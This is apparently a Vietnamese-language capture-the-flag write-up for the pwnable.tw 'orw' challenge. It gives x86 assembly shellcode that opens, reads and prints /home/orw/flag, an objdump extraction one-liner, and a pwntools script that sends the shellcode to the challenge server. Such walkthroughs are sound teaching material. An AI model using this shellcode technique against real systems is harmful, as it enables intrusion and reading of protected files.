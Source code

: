 # [orw][[pwnable.tw](https://pwnable.tw)]

>Read the flag from ```/home/orw/flag```
>
>Only ```open``` ```read``` ```write``` syscall are allowed to use.
>
>```nc chall.pwnable.tw 10001```
>
>[orw](https://pwnable.tw/static/chall/orw)

OK cũng như các bài khác mình sẽ check kiểu file và strings

Kiểu file:

 ![Kiểu file]({{ site.url }}/assets/orw_file.PNG)

Strings:

 ![Strings]({{ site.url }}/assets/orw_string.PNG)

Strong ```chall``` này mình để ý nhất đề string ```"Give me your shellcode"```.

Load chall vào IDA

![Main]({{ site.url }}/assets/orw_main.PNG)

Bài này đơn giản chỉ là đọc 1 đoạn shellcode người dùng nhập vào và thực thi doạn shellcode đó.

Quay lại vói đề bài. Ta biết vị trí của flag ```/home/orw/flag```. Biết được rằng chỉ được sử dụng các ```syscall```: ```open```, ```read```, ```write```.

Mình nghĩ mục đích của bài này để thử thách người chơi về kĩ năng tạo shellcode mà thôi

Mình sẽ sử dụng asm viết 1 đoạn chương trình đọc file và in ra màn hình sử dụng các syscall được cho phép. Rồi dùng objdump để tạo shellcode

```c
section .text
    global _start

_start:
    ;open
    mov     edx, 0
    mov     ecx, 0
    ;/home/orw/flag
    push    'ag'
    push    'w/fl'
    push    'e/or'
    push    '/hom'
    mov     ebx, esp
    mov     eax, 5
    int     80h

    ;read
    mov     edx, 30h
    mov     ecx, ebx
    mov     ebx, eax
    mov     eax, 3
    int     80h

    mov     edx, eax
    mov     eax, 4
    mov     ebx, 1
    int     80h
    ;exit
    mov     eax, 1
    int     80h

```

Biên dịch với nasm:

```sh
nasm -f elf test.asm
ld -m elf_i386 -s -o test_1 test.o
```

Dump:

```sh
for i in $(objdump -d test_1 |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
```

Sau khi bước này mình đã có shellcode trong tay. Việc còn lại sẽ tương tự như ```start``` challenge trong bài viết trước

Python code:

```python
from pwn import *

host = "chall.pwnable.tw"
port = 10001

shellcode = "\xba\x00\x00\x00\x00\xb9\x00\x00\x00\x00\x68\x61\x67\x00\x00\x68\x77\x2f\x66\x6c\x68\x65\x2f\x6f\x72\x68\x2f\x68\x6f\x6d\x89\xe3\xb8\x05\x00\x00\x00\xcd\x80\xba\x30\x00\x00\x00\x89\xd9\x89\xc3\xb8\x03\x00\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80"

con = remote(host, port)
print con.recv(1024)

con.send(shellcode)
print con.recv(1024)
con.close()
```